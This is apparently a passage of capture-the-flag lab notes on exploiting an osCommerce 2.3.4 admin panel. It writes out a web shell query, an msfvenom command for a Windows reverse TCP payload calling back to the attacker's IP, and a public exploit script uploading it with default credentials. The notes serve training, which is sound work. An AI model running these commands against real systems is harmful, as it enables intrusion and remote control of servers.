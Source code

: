 

![[Pasted image 20230910212212.png]]

Volla this means that shell might work 
![[Pasted image 20230910212352.png]]

Let's try to pass a query for ourself and see if it's working for us or not.
http://10.10.69.25:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=whoami
![[Pasted image 20230910212430.png]]

Let's try to upload a reverse shell this time and see it works or not
We have to make a payload using msfvenom (i.e. a reverse tcp with the attacker ip and port address)
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.167.78 LPORT=4444 -f exe > shell.exe
![[Pasted image 20230910213747.png]]

Will run the above python script with this time will upload the shell.exe file and before that will setup the listener aka netcat

python 43191.py -u http://10.10.69.25:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.exe 
![[Pasted image 20230910214106.png]]

Now will open the link with the query shell=cmd which simply means that will trigger the payload
http://10.10.69.25:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=shell
![[Pasted image 20230910214342.png]]
As it got stuck which is an indication that we got a shell 

![[Pasted image 20230910214424.png]]


